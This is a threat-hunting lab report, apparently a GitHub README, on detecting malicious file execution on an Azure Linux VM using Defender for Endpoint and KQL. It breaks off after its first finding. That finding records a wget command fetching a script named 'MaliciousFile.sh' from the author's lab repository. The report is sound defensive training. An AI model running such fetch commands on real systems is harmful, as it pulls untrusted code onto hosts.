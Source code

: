 <div align="center">
<img width="400" src="https://github.com/user-attachments/assets/dc5d02b6-c91f-48d4-8ae9-186f00bd9f82"/>
</div>

# Threat Hunt Report: Malicious File Execution
- [Scenario Creation](https://github.com/Goodka7/Threat-Hunting/blob/main/Linux-Threats/Malicious-File/Threat-Hunt-Event(Malicious%20File%20Execution).md)
## Platforms and Languages Leveraged
- Linux (Ubuntu 22.04) Virtual Machines (Microsoft Azure)
- EDR Platform: Microsoft Defender for Endpoint
- Kusto Query Language (KQL)
- Bash

## Scenario

Management has raised concerns about the increasing risk of malicious file execution within the organization. It has been noted that threat actors are leveraging social engineering tactics to trick employees into downloading or executing files that appear legitimate but are in fact malicious. These files, once executed, can initiate unauthorized actions on the network, such as establishing backdoors, escalating privileges, or exfiltrating sensitive data. While no direct incidents have been reported, there is a growing awareness of the potential for an attack, and management has requested a proactive review of systems to identify any evidence of malicious file execution and address potential security gaps.

The objective is to detect and analyze the logs, assess the potential security risks across multiple systems, and ensure that no malicious code is being executed.

## High-Level IoC Discovery Plan

- **Check `DeviceProcessEvents`** for suspicious executions of malicious files.

---

## Steps Taken

### 1. Searched the `DeviceProcessEvents` Table

Searched for processes running on the network, looking for any machines that were downloading or executing malicious processes. Some suspicious traffic was discovered and the scope of the search was narrowed down to specific device: `DeviceName` **"thlinux.p2zfvso05mlezjev3ck4vqd3kd.cx.internal.cloudapp.net"** ran by `AccountName` **"baddog"**. 

Further narrowed down the search criteria to the `AccountName` **"baddog"**. 

At **Feb 4, 2025 10:14:39 AM**, the user **"baddog"** executed the following command on the device **"thlinux.p2zfvso05mlezjev3ck4vqd3kd.cx.internal.cloudapp.net"**:
```
wget https://raw.githubusercontent.com/Goodka7/Threat-Hunting-Malicious-Execution-/refs/heads/main/resources/MaliciousFile.sh
```
